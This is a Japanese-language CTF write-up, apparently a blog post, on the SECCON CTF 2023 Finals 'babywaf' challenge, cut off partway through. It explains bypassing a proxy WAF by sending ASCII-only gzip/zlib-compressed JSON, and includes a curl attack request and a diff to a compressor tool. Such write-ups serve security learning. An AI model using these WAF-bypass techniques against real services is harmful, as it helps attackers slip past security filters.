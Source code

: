 ```yaml
---
title: "SECCON CTF 2023 Finals Writeup"
date: 2023-12-28T23:35:07+09:00
type: post
showTableOfContents: true
---
```


チーム「ierae」でSECCON CTF 2023 Finals (International)に参加していた。

結果としては10位くらいだったけど、1問解けば4位くらいまで上がれるくらい団子状態だった気がする。

## Web babywaf

baby問なのになかなかsolveが出なくてウケた。

`fastify/http-proxy`のproxyがありWAFになっており、特定のJSON propertyが設定されていると弾かれる。
backendのexpressにどうやってJSONを届けるかという問題。

proxy側はJSONとして処理されず、expressではただしいJSONとして処理されればいいので、いい感じのヘッダやRequest Smugglingっぽいことはできないかと試行錯誤して時間を潰した。

`Content-Encoding: gzip` はproxyがJSONとして処理できずに、backendではJSONになるのでこれが使えそうと気づく。
しかし、proxy側で受け取ったrequest bodyをUTF-8 decodeしてしまうのでうまくいかない。

↓はうまくいかない。ちなみに、proxy側がrequest body書き換えてしまって`content-length`との不整合が起きるので`transfer-encoding: chunked`する工夫をしている。結果的には無意味であったが...

```
$ echo '{"givemeflag": "json"}' | gzip | curl -v -i --data-binary @- -H "Content-Encoding: gzip"  http://babywaf.int.seccon.games:3000 -H'content-type: text/plain' -H 'transfer-encoding: chunked'
```

ASCII範囲のgzipやdeflateを送る必要があるんだけど、なんかあったっけ〜と呟いていたらチームのshiho氏から <https://github.com/molnarg/ascii-zip> を教えてもらう。
自分も昔CTFで使ったはずなのになかなか記憶に出てこなかった（あと、なんかあった気はしたのでググっていたけどググり力が低く見つけられなかった）

一応、ascii-zipそのまま使うだけでは駄目で、checksumやmagic headerもASCII範囲内に収まるように少し改造した。

```diff
diff --git a/compress.py b/compress.py
index 7157045..72c7084 100755
--- a/compress.py
+++ b/compress.py
@@ -523,7 +523,7 @@ def wrap_gzip(compressed):

 def wrap_zlib(compressed, data):
     return (
-        'x\xda' +
+        'x\x01' +
         compressed +
         struct.pack('!L', zlib.adler32(data) % pow(2, 32))
     )
@@ -537,9 +537,25 @@ elif args.mode == 'gzip':
     output.write(wrap_gzip(compressor.compress(data)[0]))

 elif args.mode == 'zlib':
-    compressed, data = compressor.compress(data)
-    print repr(compressed)
-    output.write(wrap_zlib(compressed, data))
+    i = 0
+    while True:
+        compressor = ASCIICompressor(
+            map(chr, range(1, 128))
+        )
+        i = i + 1
+        data = '{"givemeflag":"'+str(i)+'"}'
```